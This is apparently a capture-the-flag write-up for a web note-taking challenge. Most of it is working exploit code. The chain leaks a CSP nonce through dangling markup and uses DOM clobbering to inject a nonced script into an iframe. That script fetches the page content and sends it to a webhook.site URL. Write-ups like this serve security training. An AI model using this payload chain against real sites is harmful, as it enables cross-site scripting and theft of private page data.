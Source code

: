 ### tldr
Dangling Markup to Steal CSP nonce, Appcache to Reuse The nonce, DOM Clobbering with document.referrer to Inject our Code to iframe srcdoc, Steal / and send it to Our Server

```html
<a id=bad1 href=tel:%22>x</a>
<a id=bad2 href=tel:%3E>x</a>
<a id=bad3 href=tel:%3C>x</a>
<a id=bad4 href=tel:%27>x</a>

<a id=good1 href='tel:"'>x</a>
<a id=good2 href='tel:>'>x</a>
<a id=good3 href='tel:<'>x</a>
<a id=good4 href="tel:'">x</a>

<meta http-equiv="refresh" content="7;URL=http://mydomain/j.php?x= 
```

`http://mydomain/j.php` Contents:

```html
<?php
header('Referrer-Policy: unsafe-url');
?>

<script>

let v =new URL(location.href).searchParams.get('x');

let nonce=v.substr(v.indexOf('nonce')+6,22);

history.replaceState(null,null,`?x=tel:%22tel:%3Etel:%3C/a/tel:%3Etel:tel:%3Ciframe/srcdoc=slawtel:%3Cscript/nonce=${nonce}&gt;fetch(\`/\`).then(response=&gt;response.text()).then(jj=&gt;top.location=\`https://webhook.site/xxx?x=\`+jj.substr(900))//&lt;/script&gt;tel:%3E`)

location='http://politernotepad.zajebistyc.tf/note/ptqvkoVamyPwPJCtaukIeDJpuWUVEt'

</script>
```

My solution by far is the longest and I made it too hard for myself it could be much easier

